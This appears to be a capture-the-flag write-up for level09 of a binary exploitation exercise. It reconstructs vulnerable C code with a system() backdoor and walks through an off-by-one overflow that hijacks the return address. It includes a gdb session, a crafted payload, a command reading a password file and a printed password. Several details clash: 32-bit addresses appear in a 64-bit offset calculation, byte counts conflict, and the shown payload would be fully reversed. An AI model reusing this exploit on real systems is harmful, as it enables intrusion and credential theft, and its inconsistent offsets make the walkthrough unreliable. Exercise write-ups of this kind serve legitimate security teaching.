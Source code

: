 # Level09

## Answer
Our C source code generates an assembly code similar to the original binary. Compile it as follows:
> The differences are purely optimizations and do not change the behavior of the program.
```
gcc -fno-stack-protector -fpie -pie source.c
```

Let's take a look at the source code:
```c
// gcc -fno-stack-protector -fpie -pie source.c
#include <stdio.h>
#include <string.h>

typedef struct s_message
{
    char msg[140];
    char user[40];
    int len;
} t_message;

void secret_backdoor()
{
    char buffer[128]; // -0x80(%rbp)

    fgets(buffer, 128, stdin);
    system(buffer);
}

void set_msg(t_message *message)
{
    char buffer[1024]; // -0x400(%rbp)
    memset(buffer, 0, 1024);

    puts(">: Msg @Unix-Dude");
    printf(">>: ");

    fgets(buffer, 1024, stdin);

    strncpy(message->msg, buffer, message->len);
}

void set_username(t_message *message)
{
    char buffer[128]; // -0x80(%rbp)
    int i; // -0x4(%rbp)

    memset(buffer, 0, 128);

    puts(">: Enter your username");
    printf(">>: ");

    fgets(buffer, 128, stdin);

    for (i = 0; i <= 40 && buffer[i]; i++)
        message->user[i] = buffer[i];
    printf(">: Welcome, %s", message->user);
}

void handle_msg()
{
    t_message msg; // -0xc0(%rbp)
    memset(msg.user, 0, 40); // -0xc0(%rbp) + 0x8c
    msg.len = 140; // -0xc(%rbp)

    set_username(&msg);
    set_msg(&msg);

    puts(">: Msg sent!");
}

// slight differences in assembly
int main()
{
    puts("--------------------------------------------\n|   ~Welcome to l33t-m$n ~    v1337        |\n--------------------------------------------");
    // extra eax to 0
    handle_msg();
    return 0;
}
```

Let's focus on the `set_username` function.  It reads input using the `fgets` function, which is known to be safe has it has a mechanism to limit the number of bytes read. However, we're copying the `buffer` into `message->user` up to 41 characters, even though `message->user` is only 40 characters long. This will allow us to overflow the buffer and overwrite `message->len`. Let me elaborate:
```c
typedef struct s_message
{
    char msg[140];
    char user[40];
    int len;
} t_message;
```

So `user[41]` will actually write 1 byte into `message->len` which will allow us to set `message->len` up to 255. We can use this to overflow the `message->msg` buffer in the `set_msg` function, as it uses `strncpy` to copy the input into `message->msg` up to `message->len` bytes. This will allow us to overwrite the return address of the `handle_msg` function. Instead of doing a `ret2libc`, we can use the `secret_backdoor` function's address to execute a shell command.

So let's find the offset needed to overwrite the return address:
```bash
(gdb) b *handle_msg+112 # Breaking before leave
Breakpoint 1 at 0x930

(gdb) r # Run the program
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: hi
>: Welcome, hi
>: Msg @Unix-Dude
>>: hello
>: Msg sent!

Breakpoint 1, 0x0000555555554930 in handle_msg ()

(gdb) info registers # Check esp and ebp addresses
[...]
rbp            0x7fffffffe5c0   0x7fffffffe5c0
rsp            0x7fffffffe500   0x7fffffffe500
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 192 bytes:
```
0xbffff728 - 0xbffff6e0 = c0 (192 in decimal)
```	

Furthermore, we can see that our buffer is located at `-0xc0(%rbp)`. Since our buffer is located at `ebp - 192`, we only have to write 76 bytes before reaching `ebp`.
> In this case we don't have to take the bytes between `esp` and `ebp` into account because the offset of our buffer is relative to `ebp`. `ebp` is the base pointer, whom's value is set at the beginning of the function. So the offset of our buffer will always be the same. Whereas `esp` is the stack pointer, whom's value changes during the execution of the program.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 8 bytes to go from `ebp` to `ebp + 8` (the return address). So a total of 200 bytes (192 + 8).
> 8 bytes because we are in a 64-bit system

Anything written beyond those 200 bytes will be treated as an address (only the 8 next bytes) and jumped to by the `ret` instruction of the `main` function.

Alright, let's get the address of the `secret_backdoor` function:
```bash
(gdb) p secret_backdoor
$3 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
> Make sure you run the program before running this command, otherwise the address will be different.

We, now, only need to find a value that will be written into `message->len` to overflow the `message->msg` buffer. Since our padding is 200 bytes, and we need to write 8 bytes for the address of the `secret_backdoor` function, we, therefore, need to write 208 into `message->len`. Which is `0xd0` in hexadecimal.

Alright, let's craft our payload:
```bash
40 characters for the username + 1 byte for the overflow of len + padding + address of secret_backdoor

'\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'
```
> We need the `\n` for the input to be sent into the first `fgets` so that the following input is sent to the second `fgets` and not lost in the first one.

Let's run it:
```bash
level09@OverRide:~$ (python -c "print('\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])" && cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

We are now end! The project is over, congratulations!